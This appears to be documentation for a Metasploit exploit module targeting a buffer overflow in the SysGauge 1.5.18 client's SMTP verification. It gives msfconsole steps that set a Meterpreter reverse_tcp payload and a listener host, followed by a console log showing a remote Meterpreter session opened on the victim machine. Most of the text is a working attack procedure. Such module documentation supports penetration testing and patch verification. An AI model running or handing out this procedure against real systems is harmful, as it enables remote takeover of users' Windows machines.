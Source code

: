 ## Vulnerable Application

  This module will setup an SMTP server expecting a connection from SysGauge 1.5.18
via its SMTP server validation. The module sends a malicious response along in the
220 service ready response and exploits the client, resulting in an unprivileged shell.

  The software is available for download from [SysGauge](http://www.sysgauge.com/setups/sysgauge_setup_v1.5.18.exe).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/smtp/sysgauge_client_bof```
  4. Do: ```set payload windows/meterpreter/reverse_tcp```
  5. Do: ```set LHOST ip```
  6. Do: ```run```
  7. The user should put your `SRVHOST` or other applicable IP address in the SMTP configuration
in the program, and hit the "Verify Email ..." button.
  8. You should get a shell.

## Scenarios

  Here is how to typically execute the module. Note that the client must input this SMTP server
  information under SysGauge Options and hit the "Verify Email ..." button.

  ```
  msf > use exploit/windows/smtp/sysgauge_client_bof
  msf exploit(sysgauge_client_bof) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(sysgauge_client_bof) > set lhost 10.0.0.1
  lhost => 10.0.0.1
  msf exploit(sysgauge_client_bof) > exploit
  [*] Exploit running as background job.
  msf exploit(sysgauge_client_bof) >
  [*] Started reverse TCP handler on 10.0.0.1:4444
  [*] Server started.
  [*] Client connected: 10.0.0.128
  [*] Sending payload...
  [*] Sending stage (957487 bytes) to 10.0.0.128
  [*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.128:49165) at 2017-03-14 23:15:04 -0500
  ```
